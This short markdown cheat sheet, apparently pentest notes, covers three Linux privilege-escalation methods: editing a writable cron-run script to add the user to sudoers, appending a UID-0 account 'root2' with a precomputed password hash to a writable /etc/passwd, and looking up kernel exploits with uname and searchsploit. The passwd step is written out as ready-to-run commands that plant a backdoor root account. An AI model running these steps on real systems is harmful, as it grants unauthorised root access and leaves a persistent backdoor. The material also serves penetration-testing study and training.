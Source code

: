 ## Insecure Cronjob File Permissions

1. Enumerate cronjobs
2. Check for custom cron jobs
3. Check permissions of the script executed by cron job
4. If user has write permissions, change the script to add yourself to sudoers group.


## Insecure /etc/passwd File Permissions

If a password hash is present in the second column of
a /etc/passwd user record, it is considered valid for authentication and it takes precedence over the respective entry in /etc/shadow if available. This means that if we can write into the /etc/passwd file, we can effectively set an arbitrary password for any account.

```
// generate crypt hash for new user password
openssl passwd mypass

// add root2 user
echo "root2:Y54MpbPEHzD16:0:0:root:/root:/bin/bash" >> /etc/passwd
```

## Kernel Vulnerabilities

1. Enumerate linux kernel version (uname -r)
2. Check if exploit exists for enumerated kernel version.

```
searchsploit linux kernel ubuntu 16.04
```